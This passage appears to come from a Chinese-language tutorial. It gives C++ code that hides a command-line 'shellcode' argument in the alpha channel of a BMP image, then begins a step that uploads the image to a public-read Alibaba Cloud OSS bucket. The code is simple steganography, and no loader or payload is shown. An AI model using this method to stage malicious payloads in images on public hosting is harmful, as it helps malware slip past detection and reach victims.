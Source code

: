 ```
		return false;
	}
	CloseHandle(hfile);
	return true;
}
//隐藏一个字符串到图片中，把字符串拆成字节，写入每个像素的alpha通道中
bool CBMPHide::hideString2BMP(char* szStr2Hide)
{
	LPBYTE pAlpha = pBuf + m_fileHdr->bfOffBits + 3;	//第一个像素的通道位置
	int nHide;	//成功隐藏的字节数
 
	//每次循环写入一个字节，吸入alpha通道
	//(pAlpha - pBuf) < m_fileHdr->bfSize这个是判断字符串是太大，图片不能隐藏
	for (nHide = 0; (pAlpha - pBuf) < m_fileHdr->bfSize && szStr2Hide[nHide] != 0; nHide++, pAlpha += 4)
	{
		*pAlpha = szStr2Hide[nHide];	//写入一个字节
	}
 
	return true;
}
//main.cpp

int main(int argc, char* argv[])
{
	if (argc < 2)
	{
		wprintf(L"Command: %S <SHELLCODE> ...\n", argv[0]);
		return -1;
	}

	CBMPHide hide;
	hide.setBmpFileName((char*)"test.bmp");
	printf_s("test.bmp width:%d,height:%d,bitCount%d\n",
		hide.getBmpWidth(),
		hide.getBmpHeight(),
		hide.getBmpBitCount());
	char * shellcode = argv[1];
	hide.hideString2BMP((char*)shellcode);
	hide.save();
	cout << shellcode << endl;
}
```

运行结果：

![img](https://cdn.nlark.com/yuque/0/2020/png/262397/1597286887029-1b31201c-ecdc-4cc0-b80b-641ca70f457e.png)

#### 二、文件上传

进入阿里云控制台点击对象存储OSS，创建 Bucket，将读写权限改为公共读。
